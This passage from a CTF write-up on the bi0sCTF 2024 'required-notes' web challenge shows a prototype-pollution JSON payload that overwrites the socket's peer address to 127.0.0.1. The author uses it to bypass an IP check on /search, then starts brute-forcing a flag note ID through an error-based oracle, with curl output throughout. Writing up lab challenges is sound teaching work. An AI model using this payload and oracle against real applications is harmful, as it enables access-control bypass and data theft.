 ```javascript
};
[...]
```

**Payload:**
```json
{"data":[{"title":"option(foobar).constructor.prototype._peername.address = \"127.0.0.1\";optional"},{"author":"optional"}]}
```

**Before polluted:**
```
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:18:12(HKT)]
└> curl http://localhost:3000/search
{"Message":"Access denied"}
```

```javascript
undefined
{ address: '::ffff:172.17.0.1', family: 'IPv6', port: 50844 }
```

**After polluted:**
```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:20:07(HKT)]
└> curl http://localhost:3000/search
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /search</pre>
</body>
</html>
```

```javascript
{ address: '127.0.0.1' }
{ address: '127.0.0.1' }
```

Nice!!! **We successfully polluted the `_peername`'s `address` to become `127.0.0.1`!!** And now we can access the `/search` route!

Let's go!

**Here's come the final step: Brute force the flag note ID via error-based oracle.**

**We can take an existing note called `Healthcheck` for an example:**
```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:28:12(HKT)]
└> curl http://localhost:3000/search/Healthchea
{"Message":"Not found"}
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:28:16(HKT)]
└> curl http://localhost:3000/search/Healthchec 
{"Message":"Internal server error"}
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|14:28:45(HKT)]
└> curl http://localhost:3000/search/Healthcheck
{"Message":"Note found"}
```

